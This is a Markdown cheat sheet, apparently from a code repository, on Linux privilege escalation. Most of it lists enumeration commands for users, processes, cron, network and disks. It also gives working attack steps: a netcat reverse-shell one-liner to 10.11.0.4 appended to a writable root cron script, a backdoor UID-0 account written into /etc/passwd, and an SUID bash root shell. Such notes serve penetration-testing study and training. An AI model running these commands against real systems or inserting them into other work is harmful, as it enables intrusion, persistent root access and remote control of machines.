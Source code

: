 # Linux privilege escalation  

Find out what user is currently logged in.  

`whoami`  

Find user context.  

`id`  

Find information from the hostname.  

`hostname`  

os version information.  

```
cat /etc/*-release
uname -a
```  

List processes, a and x with/without TTY and u for readable output.  

`ps aux`

## cron  

List cron.  

`ls -lah /etc/cron*`  

System cron jobs usually running as root.  

`cat /etc/crontab`  


To view running jobs in the cron log.  

`grep "CRON" /var/log/cron.log`  

If a writable script(user_backups.sh) is found as a cronjob, a reverse shell one liner can be appended.  

```
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
```  

## /etc/passwd  

If /etc/passwd is writable, another root user can be added.  

```
openssl passwd somepassword1
echo "root2:<somepassword1 hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```  

## bash  

If we can execute a command as root.  

```
chmod +s /usr/bin/bash
/usr/bin/bash -p
```  

## Kernel vulns  

Gathering info.  

To display message of login prompt.  

`cat /etc/issue`  

Kernel version.  

`uname -r`  

Architecture.  

`arch`  

## Network  

Display all network information.  

`ip a`  

`ifconfig a`  

Display route tables, depending on linux flavour/version.  

`/sbin/route`  

`/sbin/routel`  

List all connections, 'a' = all, 'n' = no dns, 'p' = print owning process.  

`ss -anp`  

Firewall rules as root user.  

`iptables`  

Some firewall rules can be found as a standard user.  

`/etc/iptables`  

## Applications  

View installed applications.  

`dpkg -l`  

## File permissions  

Using the find command.  

`find / -writable -type d 2>/dev/null`  

## Drives  

View mounted drives.  

`mount`  

`cat /etc/fstab`  

View all available disks.  

`/bin/lsblk`  

